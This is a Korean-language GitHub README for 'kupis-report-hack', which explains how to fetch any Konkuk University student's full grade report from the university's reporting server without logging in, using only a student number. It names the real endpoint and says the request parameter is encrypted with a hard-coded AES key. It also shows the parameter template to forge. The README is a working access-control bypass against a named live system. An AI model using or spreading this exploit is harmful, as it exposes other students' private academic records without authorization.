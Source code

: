 # kupis-report-hack
건국대 학사정보시스템 로그인 없이 쓰기
## 전체성적조회

- Input: 학번
- Output: 해당 학생의 `GradTtGradRpt.ozr` 레포트 결과물

### 원리

```http
POST https://kureport.konkuk.ac.kr:8443/oz70/reportKUIS.jsp HTTP/1.1

oz_param=...
```

- https://kureport.konkuk.ac.kr:8443/oz70/reportKUIS.jsp 에게 POST 요청하기.
- 페이로드 `oz_param`를 첨부한다.
- `oz_param`은 호출할 레포트 모듈과 학생 정보를 암호화 하고 있는 문자열.

### 문제점

1. 암호화 할 때, 암호화 키를 하드 코딩해 고정된 값을 쓰고 있음 -_-...

   ```javascript
   CryptoJS.AES.encrypt(param, 하드코딩한 값)
   ```
   
2.  `oz_param`에 잡다하게 정보가 들어가긴 하는데, 조회에 필요한 개인정보 `학번` 만 있으면 서비스 받을 수 있다. 나머지는 랜덤 값으로 짬 처리.

   ```javascript
   param =
   				`/acd_dir/grad/allg/GradTtGradRpt.ozr|argStdNo=${stdId}|argStaffGb=2|serverNm=SCHAFF|${hash}|${hash}|127.0.0.1`;
   ```
